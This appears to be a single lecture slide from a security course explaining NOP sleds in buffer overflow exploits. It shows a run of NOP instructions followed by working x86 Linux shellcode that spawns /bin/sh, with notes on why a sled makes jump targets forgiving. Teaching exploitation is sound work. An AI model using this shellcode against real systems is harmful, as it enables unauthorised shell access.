

# NOP Sleds
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
xor %eax, %eax
push %eax
push $0x68732f2f
push $0x6e69622f
mov %esp, %ebx
mov %eax, %ecx
mov %eax, %edx
mov $0xb, %al
int $0x80
Idea: Instead of having to jump to an exact address, make it “close enough” so that small shifts don’t break your exploit
NOP: Short for no-operation or no-op, an instruction that does nothing (except advance the EIP)
A real instruction in x86, unlike RISC-V
Chaining a long sequence of NOPs means that landing anywhere in the sled will bring you to your shellcode
22